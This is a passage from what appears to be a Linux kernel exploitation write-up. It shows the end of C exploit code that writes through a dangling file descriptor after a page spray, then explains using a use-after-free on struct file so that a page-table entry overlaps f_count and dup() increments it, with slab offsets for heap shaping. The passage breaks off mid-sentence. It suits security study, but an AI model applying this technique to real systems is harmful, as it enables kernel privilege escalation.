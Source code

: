```c
    pages_spray[i][0] = 'A';
  }

  printf("Use the Freed file structure...\n");

  write(dangeling_fd, 'ohohoh', 6);
  return 0;
}
```

Here is how the file structure looks like:

```c
struct file {
	union {
		struct llist_node	f_llist;
		struct rcu_head 	f_rcuhead;
		unsigned int 		f_iocb_flags;
	};

	spinlock_t		f_lock;
	fmode_t			f_mode;
	atomic_long_t		f_count;
	struct mutex		f_pos_lock;
	loff_t			f_pos;
	unsigned int		f_flags;
	struct fown_struct	f_owner;
	const struct cred	*f_cred;
	struct file_ra_state	f_ra;
	struct path		f_path;
	struct inode		*f_inode;	/* cached value */
	const struct file_operations	*f_op;

...
}

```

One good field here is the `f_count` field, which represents the reference count of the file object.
When calling the `dup` syscall on a specific `fd`, the kernel will assign a new fd to this file structure, and will increment the `f_count` of this file structure.

With our UAF, we can let the position of the victim PTE coincide with the f_count, then we can perform the increment primitive to the victim PTE and control it to some extent.

The aligned size of a file object is 320 bytes, the offset of f_count is 56, and the size of f_count is 8 bytes.

The size of the slab of filp kmem cache is two pages, and there are 25 file objects in a slab of filp kmem cache.

We would want to shape the heap to look something like this:
